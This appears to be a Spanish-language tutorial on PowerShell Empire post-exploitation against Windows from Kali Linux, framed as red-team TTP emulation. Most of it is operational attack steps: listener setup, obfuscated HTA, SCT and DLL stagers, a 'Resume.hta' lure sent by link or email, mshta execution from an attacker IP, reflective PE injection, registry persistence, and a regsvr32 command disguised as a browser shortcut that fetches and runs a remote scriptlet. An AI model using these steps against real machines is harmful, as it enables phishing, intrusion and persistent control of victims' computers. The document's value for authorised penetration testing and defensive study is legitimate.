 # Powershell Empire: Post-Explotación en redes Windows con Kali linux

-Powershell Empire, es un framework de post-explotación basado en el despliegue de agentes que se ejecutan en las máquinas comprometidas y son gestionados desde una consola bajo el control del pentester.
-Consiste en la integración de los frameworks conocidos de pentesting con powershell.
-Se centra únicamente en Python con comunicaciones criptográficamente seguras con el complemento de una arquitectura flexible.

# Componentes de PowerShell Empire

1.Listeners: Es un proceso que escucha una conexión desde la máquina que estamos atacando. Esto ayuda a Empire a enviar el “paquete” a la computadora del atacante.
2.Agentes: Es un programa que mantiene una conexión entre tu computadora y el host comprometido.
3.Stagers: Es un fragmento de código que permite que nuestro código malicioso se ejecute a través del agente en el host comprometido.
4.Módulos: Esto es lo que ejecuta nuestros comandos maliciosos, que pueden recopilar credenciales y escalar nuestros privilegios como se mencionó anteriormente.

## Prerequisitos
1. Considerar los S.O compatibles que han sido testeados para el uso de Empire:
-Kali Linux Rolling (En nuestro caso estaremos utilizando este S.O)
-Ubuntu 20.04
-Debian 10

> Verificar con:
> uname -r

2. Actualizar todas las dependencias y paquetes del S.O
> sudo apt update 

3. Tener instalado Python como mínimo la versión 3.8 (Se recomiendo la v3.8 o v3.9)
> Verificar con:
> python --version

4. Para los S.O Kali instalar la versión utilizando sudo (las nuevas versiones de Kali requieren correr “sudo” antes de empezar Empire.


## Instalación Empire
1. Instalar la ultima versión de Empire corriendo lo siguiente:
> sudo apt install powershell-empire

El resultado debe ser el siguiente:
![image](https://i.imgur.com/DAawQol.jpg)

## Inicializar Empire
1. Inicializar servidor empire
> sudo powershell-empire server
![image](https://i.imgur.com/SuNG6Of.jpg)

2. Inicializar cliente empire
> sudo powershell-empire client
![image](https://i.imgur.com/X2cQsBp.jpg)

## Instalación Starkiller
1. Instalar Starkiller para tener GUI
>cd /opt
>sudo wget https://github.com/BC-SECURITY/Starkiller/releases/download/v1.0.0/starkiller-1.0.0.AppImage
>sudo chmod +x starkiller-1.0.0.AppImage
![image](https://i.imgur.com/rFlVBTU.jpg)

## Inicializar Starkiller (GUI)
1. Iniciar Starkiller
>cd /opt/starkiller
>./starkiller-1.0.0.AppImage

![image](https://i.imgur.com/UfK06Mk.jpg)

## Creación de componentes PowerShell Empire
1.Crear Listener
>Type: http
>Name: http
>Host: http://10.0.0.187
>Port: 80
>BindIP: 10.0.0.187
>Jitter: 0.5
>StagingKey: empireadmin
![image](https://i.imgur.com/uqNHCBy.jpg)

2.Crear Stagers
-Generar Stager HTA:
Type: windows/hta
>Listner: http
>Base64: True
>Language: powershell
>Outfile: /tmp/Resume.hta
-Generar Stager SCT:
>Type: windows/launcher_sct
>Listner: http
>Base64: True
>Language: powershell
-Generar Stager DLL:
>Type: windows/dll
>Listner: http
>Arch: x86
>Language: powershell
>OutFile: /tmp/launcher.dll
>Obfuscate: True
>ObfuscateCommand: Token\String\1

Resultado de la creación de Stagers:
![image](https://i.imgur.com/htm5bqB.jpg)

3.Descargar Stagers en /tmp y usarlos con SimpleHTTPServer
>cd /tmp
>python -m SimpleHTTPServer 8080
![image](https://i.imgur.com/JurGJ9P.jpg)

##Emulación de TTP's
1. Acceso Inicial
Enviamos un link de descarga o mail http://192.168.126.129/Resume.hta

2. Ejecución
-Ejecutar Resume.hta
>mshta http://10.0.0.187:8080/Resume.hta
![image](https://i.imgur.com/lZCeoZq.jpg)

-Migrar a otro proceso con reflective PE Injection
>ver procesos: ps
>usemodule code_execution/invoke_reflectivepeinjection
>set ProcID: <processID>
>set DllPath: /tmp/launcher.dll
![image](https://i.imgur.com/Ap8ghR1.jpg)
  
3. Agente Activo
![image](https://i.imgur.com/9Q5JA25.jpg)
  
4. Descubrimiento
>whoami
>usemodule situational_awareness/host/antivirusproduct 
>usemodule situational_awareness/host/get_uaclevel 
>usemodule situational_awareness/host/winenum
![image](https://i.imgur.com/8DjskSO.jpg)
5. Persistencia
>usemodule persistence/userland/registry
>set Listener: http
![image](https://i.imgur.com/loz2sRu.jpg)

6. Evasión de defensa
-Ejecución con regsvr32 y scripting. Se crea un acceso directo enmascarango un navegador web con target:
  C:\Windows\System32\cmd.exe /c "C:\Windows\System32\regsvr32.exe /s /n /u /i:http:\192.168.126.129:8080\launcher.sct scrobj.dll"
![image](https://i.imgur.com/maJN0cy.jpg)

#### De lo presentado anteriormente se puede apreciar que el malware (.exe/dll/hta) permite construir cualquier ataque ya que se tiene acceso a win32.

